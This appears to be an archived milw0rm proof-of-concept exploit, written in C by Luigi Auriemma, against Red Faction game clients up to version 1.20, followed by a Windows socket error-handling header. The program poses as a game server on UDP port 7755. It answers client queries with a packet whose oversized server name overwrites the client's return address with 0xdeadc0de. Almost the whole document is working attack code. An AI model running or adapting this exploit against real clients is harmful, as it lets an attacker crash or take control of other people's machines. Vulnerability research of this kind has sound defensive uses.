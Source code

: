POC
---

    /*

    by Luigi Auriemma

    UNIX & WIN VERSION
    */

    #include <stdio.h>
    #include <stdlib.h>
    #include <string.h>

    #ifdef WIN32
    #include <winsock.h>
    #include "winerr.h"

    #define close closesocket
    #else
    #include <unistd.h>
    #include <sys/socket.h>
    #include <sys/types.h>
    #include <arpa/inet.h>
    #include <netdb.h>
    #endif

    #define VER "0.1"
    #define BUFFSZ 2048
    #define PORT 7755
    #define RETADDR "\xde\xc0\xad\xde" // 0xdeadc0de

    void std_err(void);

    int main(int argc, char *argv[]) {
    int sd,
    on = 1,
    psz;
    struct sockaddr_in peer;
    u_char *buff,
    info[] =
    "\x00\x01" // packet number
    "\x00\x00" // packet size - 4
    "\x89" // version (x89 = 1.20)
    "aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa" // server name (260 bytes)
    "aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa"
    "aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa"
    "aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa"
    "aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa"
    "aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa"
    "aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa"
    "aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa"
    RETADDR "\0"
    "\x00" // type of game
    "\x01" // players
    "\x08" // max players
    "Relentless\0" // mapname
    "\x00" // dunno?
    "\x00"; // password:
    // 4 = yes, 0 = none

    setbuf(stdout, NULL);

    fputs("\n"
    "RedFaction <= 1.20 broadcast clients buffer overflow "VER"\n"
    "by Luigi Auriemma\n"
    "e-mail: aluigi@altervista.org\n"
    "web: http://aluigi.altervista.org\n"
    "\n", stdout);

    #ifdef WIN32
    WSADATA wsadata;
    WSAStartup(MAKEWORD(1,0), &wsadata);
    #endif

    peer.sin_addr.s_addr = INADDR_ANY;
    peer.sin_port = htons(PORT);
    peer.sin_family = AF_INET;
    psz = sizeof(peer);

    printf("\nBinding UDP port %u\n", PORT);

    sd = socket(AF_INET, SOCK_DGRAM, IPPROTO_UDP);
    if(sd < 0) std_err();

    if(setsockopt(sd, SOL_SOCKET, SO_REUSEADDR, (char *)&on, sizeof(on))
    < 0) std_err();
    if(bind(sd, (struct sockaddr *)&peer, psz)
    < 0) std_err();

    buff = malloc(BUFFSZ);
    if(!buff) std_err();

    *(u_short *)(info + 2) = sizeof(info) - 5;

    printf("Return address of clients will be overwritten with 0x%08lx\n", *(u_long *)RETADDR);

    fputs("\nClients:\n", stdout);
    while(1) {
    if(recvfrom(sd, buff, BUFFSZ, 0, (struct sockaddr *)&peer, &psz)
    < 0) std_err();

    printf("%s:%hu -> ", inet_ntoa(peer.sin_addr), htons(peer.sin_port));

    if(sendto(sd, info, sizeof(info) - 1, 0, (struct sockaddr *)&peer, psz)
    < 0) std_err();
    fputs("BOOM\n", stdout);
    }

    close(sd);
    return(0);
    }

    #ifndef WIN32
    void std_err(void) {
    perror("\nError");
    exit(1);
    }
    #endif
    --------------------------------------------------------------------------------------------------
    //winerr.h
    /*
    Header file used for manage errors in Windows
    It support socket and errno too
    (this header replace the previous sock_errX.h)
    */

    #include <string.h>
    #include <errno.h>



    void std_err(void) {
    char *error;

    switch(WSAGetLastError()) {
    case 10004: error = "Interrupted system call"; break;
    case 10009: error = "Bad file number"; break;
    case 10013: error = "Permission denied"; break;
    case 10014: error = "Bad address"; break;
    case 10022: error = "Invalid argument (not bind)"; break;
    case 10024: error = "Too many open files"; break;
    case 10035: error = "Operation would block"; break;
    case 10036: error = "Operation now in progress"; break;
    case 10037: error = "Operation already in progress"; break;
    case 10038: error = "Socket operation on non-socket"; break;
    case 10039: error = "Destination address required"; break;
    case 10040: error = "Message too long"; break;
    case 10041: error = "Protocol wrong type for socket"; break;
    case 10042: error = "Bad protocol option"; break;
    case 10043: error = "Protocol not supported"; break;
    case 10044: error = "Socket type not supported"; break;
    case 10045: error = "Operation not supported on socket"; break;
    case 10046: error = "Protocol family not supported"; break;
    case 10047: error = "Address family not supported by protocol family"; break;
    case 10048: error = "Address already in use"; break;
    case 10049: error = "Can't assign requested address"; break;
    case 10050: error = "Network is down"; break;
    case 10051: error = "Network is unreachable"; break;
    case 10052: error = "Net dropped connection or reset"; break;
    case 10053: error = "Software caused connection abort"; break;
    case 10054: error = "Connection reset by peer"; break;
    case 10055: error = "No buffer space available"; break;
    case 10056: error = "Socket is already connected"; break;
    case 10057: error = "Socket is not connected"; break;
    case 10058: error = "Can't send after socket shutdown"; break;
    case 10059: error = "Too many references, can't splice"; break;
    case 10060: error = "Connection timed out"; break;
    case 10061: error = "Connection refused"; break;
    case 10062: error = "Too many levels of symbolic links"; break;
    case 10063: error = "File name too long"; break;
    case 10064: error = "Host is down"; break;
    case 10065: error = "No Route to Host"; break;
    case 10066: error = "Directory not empty"; break;
    case 10067: error = "Too many processes"; break;
    case 10068: error = "Too many users"; break;
    case 10069: error = "Disc Quota Exceeded"; break;
    case 10070: error = "Stale NFS file handle"; break;
    case 10091: error = "Network SubSystem is unavailable"; break;
    case 10092: error = "WINSOCK DLL Version out of range"; break;
    case 10093: error = "Successful WSASTARTUP not yet performed"; break;
    case 10071: error = "Too many levels of remote in path"; break;
    case 11001: error = "Host not found"; break;
    case 11002: error = "Non-Authoritative Host not found"; break;
    case 11003: error = "Non-Recoverable errors: FORMERR, REFUSED, NOTIMP"; break;
    case 11004: error = "Valid name, no data record of requested type"; break;
    default: error = strerror(errno); break;
    }
    fprintf(stderr, "\nError: %s\n", error);
    exit(1);
    }


    // milw0rm.com [2004-03-04]
